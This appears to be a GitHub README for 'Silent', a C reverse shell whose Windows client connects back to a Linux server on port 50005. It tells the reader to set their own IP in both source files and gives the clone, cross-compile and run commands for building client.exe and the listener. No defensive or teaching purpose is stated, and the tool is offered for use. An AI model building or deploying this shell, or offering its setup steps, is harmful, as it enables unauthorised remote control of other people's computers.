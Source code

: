 # Silent is simple TCP reverse shell written on C.
![Alt Text](https://media.giphy.com/media/Kmr5zGPaFDWYiVBVIB/giphy.gif)
### In both files IP need to be changed to yours.

### For example:

### server.c

###### server_address.sin_addr.s_addr = inet_addr("192.168.0.100");

### client.c

###### ServIP = "192.168.0.100";

## Installation
```bash
git clone http://github.com/R4v3nG/silent.git
sudo apt-get install gcc-mingw-w64-i686
cd silent/server
gcc -o server server.c
cd ../client
i686-w64-mingw32-gcc -o client.exe client.c -lwsock32 -lwininet
```

## Usage
# Linux
```bash
./server
```
# Windows
```bash
client.exe
```
# Silent using 50005 port
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## License
[MIT](https://choosealicense.com/licenses/mit/)
